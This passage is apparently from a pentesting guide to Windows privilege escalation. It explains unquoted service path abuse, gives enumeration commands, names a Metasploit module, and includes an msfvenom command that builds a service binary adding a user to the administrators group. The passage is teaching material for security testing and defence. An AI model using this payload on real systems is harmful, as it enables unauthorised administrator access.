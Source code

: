 

### Unquoted Service Paths

If the path to an executable is not inside quotes, Windows will try to execute every ending before a space.

For example, for the path _C:\Program Files\Some Folder\Service.exe_ Windows will try to execute:

```
C:\Program.exe 
C:\Program Files\Some.exe 
C:\Program Files\Some Folder\Service.exe
```

To list all unquoted service paths (minus built-in Windows services)

```bash
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """ #Not only auto services

#Other way
for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
	for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
		echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
	)
)
```

```bash
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

**You can detect and exploit** this vulnerability with metasploit: _exploit/windows/local/trusted\_service\_path_\
You can manually create a service binary with metasploit:

```bash
msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
```

### Recovery Actions

It's possible to indicate Windows what it should do[ when executing a service this fails](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/cc753662\(v=ws.11\)?redirectedfrom=MSDN). If that setting is pointing a binary and this binary can be overwritten you may be able to escalate privileges.

## Applications
